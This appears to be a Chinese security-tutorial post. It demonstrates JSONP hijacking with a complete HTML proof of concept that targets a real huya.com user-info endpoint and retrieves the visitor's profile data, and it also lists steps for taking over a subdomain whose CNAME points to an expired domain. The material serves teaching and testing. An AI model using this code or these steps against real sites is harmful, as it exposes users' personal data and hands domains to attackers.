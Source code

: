 ![1649121426892-5e536ce7-75e4-4a02-8bfa-d9afee5954e8.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913133925291-1359464145.png)

```html
把这个地址复制：https://user.huya.com/user/getUserInfo?callback=jQuery17205956628992364452_1649121318647&uid=1259515769956
构造一个html:

<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>JSONP劫持测试</title>
</head>
<body>
<script type="text/javascript">
function callbackFunction(result)
        {
            alert(result.avatar);
        }
</script>
<script type="text/javascript" src="https://user.huya.com/user/getUserInfo?callback=jQuery17205956628992364452_1649121318647&uid=1259515769956"></script>
</body>
</html>

当有人去访问这个页面，这个页面可以放在任何网上上去，比如在本地访问，访问之后，就会有回显信息
```

![1649121728354-bd524157-881e-4ecd-b615-d1226af4f1ed.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913133925413-1890639694.png)

```html
这样就获取到了图像信息等（个人信息）


用户A浏览器访问过huya,baidu.youku这种页面

攻击者：尝试去测试这些官方的回调页面（解决同源策略的安全问题）（不直接去请求有敏感信息的页面）
自己搭建在网站上面去触发代码，只要用户A访问了页面，相当于用户A就触发了回调，解决了同源策略的防护问题
从未得到了回调页面的内容

对于官方来讲：来源使攻击者的网站，不合法，同源策略防护阻止
回调第三方：官方认同的合法的，从哪里触发都可以了
```

- 子域名接管-瓜迪个人子域名劫持接管

------

```html
复现步骤：:xiaodi8.com 
1、通过检测cname获取指向
2、发现testxiaodi.fun过期受控
3、注册testxiaodi.fun实现控制

test.baidu.com设置了cname test.xxxx.com
如果这个时候 test.xxxx.com过期或者失效等
我们是不是注册这个域名，实现对test.baidu.com控制

在域名解析的时候，CNAME的记录类型是将一个域名指向另外一个域名
```
